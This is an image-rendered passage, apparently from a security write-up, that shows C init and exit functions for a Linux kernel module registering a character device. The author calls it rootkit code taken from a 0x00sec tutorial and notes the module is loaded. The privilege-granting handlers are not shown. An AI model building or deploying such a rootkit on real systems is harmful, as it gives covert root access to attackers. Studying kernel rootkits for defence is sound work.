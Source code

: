 ```c


static int __init
root_init(void)
{
  // Create char device
  if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
    {
      return majorNumber;
    }

   // Register the device class
   rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
   if (IS_ERR(rootcharClass))
     {
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharClass);
   }

   // Register the device driver
   rootcharDevice = device_create(rootcharClass, NULL,
      MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
   if (IS_ERR(rootcharDevice))
     {
       class_destroy(rootcharClass);
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharDevice);
     }

    return 0;    
}

static void __exit
root_exit(void)
{
  // Destroy the device
  device_destroy(rootcharClass, MKDEV(majorNumber, 0));
  class_unregister(rootcharClass);                     
  class_destroy(rootcharClass);                        
  unregister_chrdev(majorNumber, DEVICE_NAME);     
}


module_init(root_init);
module_exit(root_exit);
```

The rootkit code is taken from [here](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485).

We can see that the LKM is loaded.
